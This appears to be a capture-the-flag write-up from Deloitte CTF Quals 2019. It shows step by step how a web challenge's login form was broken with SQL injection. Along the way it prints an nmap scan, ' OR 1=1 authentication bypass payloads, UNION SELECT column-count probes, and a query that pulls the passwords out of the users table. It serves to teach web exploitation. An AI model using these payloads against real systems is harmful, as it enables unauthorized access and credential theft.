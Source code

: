 ```yaml
---
title: Deloitte CTF Quals 2019: Query Query 👸🏻
slug: deloitte-query-query
date: 06/11/2019 04
---
```


*Query query on the wall.. Who's the fairest of them all? 👸🏻* was a task
labelled web and worth 120 points. It is a standard SQL injection.

![Task Description](/assets/query-query/intro.png)

Let's start with a quick nmap scan:

```
$ nmap 52.56.149.188
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:46 GMT
Nmap scan report for ec2-52-56-149-188.eu-west-2.compute.amazonaws.com (52.56.149.188)
  Host is up (0.0038s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  443/tcp  open     https
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

Just a web application on port 443:

![Web Application](/assets/query-query/web_app.png)

From the title of the challenge, we can imagine that our objective is to
perform an SQL injection. Let's try a very simple payload on the `username`
field of the `/login` page.

![Web Application](/assets/query-query/login.png)

A simple `'` crashes the application, so this field is most likely injectable.

![Web Application](/assets/query-query/crash.png)

Let's try to login as `user`. This particular username may not exist but
it will give us some information on how the application behaves:

```sql
user' OR 1=1 --
```

And we get logged as `TESTIING`.

![TESTIING](/assets/query-query/testiing.png)

*Note: Although it is not accessible via a link or button, a `/logout` route
exists and works.*

Let's try with a username that will most likely not exist:

```sql
does_not_exist' OR 1=1 --
```

We are logged as `TESTIING` again. Maybe the SQL query is very weird and still
manages to get this user. Let's ignore this for now and carry on.

According to the challenge description, the flag is the password of one of the
users stored in the database. Let's see if we can display `TESTIING`'s password.
We are going to use the `UNION SELECT` method, so the first step is to determine
how many columns are queried before our input.

```
whocares' UNION SELECT 1 --
whocares' UNION SELECT 1, 2 --
whocares' UNION SELECT 1, 2, 3 --
```

All these payloads crashes the application.

```sql
whocares' UNION SELECT 1, 2, 3, 4 --
```

This payload does not crash the application and logs us as `2`.

![Logged as 2](/assets/query-query/two.png)

Let's replace the numbers by actual column names. We guess that the `id`
column exists and that the password column is named `password`.

```sql
whocares' UNION SELECT id, password, id, id from users --
```

We are now logged as `monkey28`, which is the password of `TESTIING`.

![Logged as monkey](/assets/query-query/monkey.png)

Let's add a constraint on the password column that matches the flag format:

```sql
whocares' UNION SELECT id, password, id, id from users where password like "dctf%" --
```

And we have our flag!

![The flag](/assets/query-query/flag.png)

Final flag: `dctf{c0m3_0n_3113333n!}`.